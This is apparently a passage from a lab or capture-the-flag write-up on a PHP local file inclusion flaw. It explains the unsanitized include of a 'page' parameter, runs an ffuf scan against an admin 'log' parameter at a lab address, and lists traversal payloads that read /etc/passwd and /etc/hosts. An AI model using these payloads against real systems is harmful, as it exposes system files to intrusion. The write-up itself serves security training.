 We can analyze the behavior, here are some key features:

```ad-important

1. **Unsanitized User Input**:  
    TheÂ `page`Â parameter inÂ `index.php?page=`Â is used directly inÂ `include $page . ".php";`Â without proper validation, allowing attackers to inject PHP wrappers.
    
2. **Directory Traversal Check Bypass**:  
    The code checks forÂ `..`Â usingÂ `strpos`, but this doesn't block PHP filter wrappers likeÂ `php://filter`.
3. **Admin Panel Access**:  
    The commented-out lineÂ `ilf_admin/index.php`Â suggests an admin section. Attackers can target this path to read admin scripts for credentials or vulnerabilities.
```

![Pasted image 20250218224538.png](../../../IMAGES/Pasted%20image%2020250218224538.png)

So, we found the admin panel, we can try automating the scan to check for LFI vulnerabilities, let's do it:

```
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.248.62:52545/ilf_admin/index.php?log=FUZZ' -ic -c -t 200 -fs 2046
```

We get the following output:

```
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 157ms]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 321ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2291, Words: 155, Lines: 110, Duration: 480ms]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 621ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 187ms]
../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 243ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 283ms]
```